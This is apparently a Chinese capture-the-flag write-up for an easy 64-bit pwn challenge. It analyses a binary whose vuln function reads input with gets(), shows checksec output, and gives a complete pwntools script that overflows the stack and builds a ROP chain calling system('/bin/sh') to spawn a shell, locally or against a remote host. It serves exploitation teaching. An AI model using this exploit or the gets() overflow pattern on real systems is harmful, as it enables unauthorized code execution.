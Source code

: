 # ROP链

- 作者：pn1fg
- 参考：
- 难度：Easy
- 分类：Pwn
- 镜像：-
- 端口：70

# 题目描述

最简单的ROP链

# 题目解析

- 源码：[pwn.c](build/pwn.c)
- 考点：64位ROP链

由于出题目的时间跨度有点大，导致本题与上题`ret2text_64`题目重合，为表达歉意，我们就不更换题目了，这道题目赠送给各位同学们

这里和同学们简单分析一下

#### 查看文件信息

查看文件类型：

```shell
>>> file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9c5a0203058595c56d22e89b7c4b45869bb959de, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    ulong s;

    sym.imp.system("echo You know the size of the input data?");
    sym.imp.gets(&s);
    return;
}
```

`gets`函数可以读入无限制长度的字符（直到换行`\n`），导致超出`s`长度，覆盖`rbp`，造成栈溢出

构造利用都与上题一致

#### 编写利用程序：

exp 也可以和上题共用，这里就演示一个

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote(IP,port)
else:
    io = process('./pwn')

elf = ELF("./pwn")
rop = ROP(elf)

rop.raw(cyclic(0x70 + 8))
rop.raw(rop.find_gadget(["ret"]))
rop.call(elf.sym["system"], [next(elf.search(b"/bin/sh"))])

payload = rop.chain()
io.sendlineafter(b'a?\n',payload)
io.interactive()
```
